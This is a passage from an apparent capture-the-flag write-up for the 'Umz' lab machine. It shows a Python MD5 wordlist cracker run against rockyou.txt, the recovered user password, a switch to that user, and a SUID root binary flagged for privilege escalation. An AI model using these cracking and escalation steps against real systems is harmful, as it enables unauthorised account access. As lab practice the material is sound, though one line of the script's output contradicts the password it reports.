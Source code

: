 ```python
            if not found_password_clean:
                end_time = time.time()
                elapsed_time = end_time - start_time
                print(f"Password NOT found in wordlist '{WORDLIST_PATH}' after {line_count} attempts.")
                print(f"Total duration: {elapsed_time:.2f} seconds.")

    except FileNotFoundError:
        print(f"Error: Wordlist not found at '{WORDLIST_PATH}'")
    except Exception as e:
        print(f"An unexpected error occurred: {e}")

if __name__ == "__main__":
    main()
```
It's a simple python file that reads the `rockyou.txt` file and hashes it to `md5sum` hash and compares it to.
```bash
kali :: exercises/HMV/umz » python3 md5cracker.py
Start hash comparison with Wordlist: /usr/share/wordlists/rockyou.txt
Target hash: a963fadd7fd379f9bc294ad0ba44f659 (expected from 'password\n')

**************************************************
PASSWORD FOUND after 9982 attempts!
Password (without the trailing \n): sunshine3
Hashed: 'sunshine3\n'
Generated hash: a963fadd7fd379f9bc294ad0ba44f659
Duration: 0.01 seconds
**************************************************
```
After running the python script, we get the `umzyyds` password `sunshine3`
```bash
welcome@Umz:/opt/flask-debug$ su umzyyds
Password:
umzyyds@Umz:~$ id
uid=1001(umzyyds) gid=1001(umzyyds) groups=1001(umzyyds)
umzyyds@Umz:~$ sudo -l
[sudo] password for umzyyds:
Sorry, user umzyyds may not run sudo on Umz.
umzyyds@Umz:/opt/flask-debug$ ls -la
total 20
drwxr-xr-x 2 welcome welcome 4096 May  3 10:32 .
drwxr-xr-x 3 root    root    4096 May  3 09:46 ..
-rw-r--r-- 1 root    root    5001 May  3 10:23 flask_debug.py
-rwx------ 1 root    root      10 May  3 10:32 umz.pass
umzyyds@Umz:/opt/flask-debug$ cd ~
umzyyds@Umz:~$ ls -la
total 96
drwx------ 2 umzyyds umzyyds  4096 May  3 10:42 .
drwxr-xr-x 4 root    root     4096 May  3 10:27 ..
lrwxrwxrwx 1 root    root        9 May  3 10:38 .bash_history -> /dev/null
-rw-r--r-- 1 umzyyds umzyyds   220 May  3 10:27 .bash_logout
-rw-r--r-- 1 umzyyds umzyyds  3526 May  3 10:27 .bashrc
-rwsr-sr-x 1 root    root    76712 May  3 10:42 Dashazi
-rw-r--r-- 1 umzyyds umzyyds   807 May  3 10:27 .profile
```
switch to the `umzyyds` user and try to gain access to the root user from there onwards. Here we notice the `Dashazi` binary. notice the `suidy` bit set for the file, this means we can run the file as root.
```bash
umzyyds@Umz:~$ file Dashazi
Dashazi: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=21bfd63cfb732f9c09d17921f8eef619429bcd35, stripped
```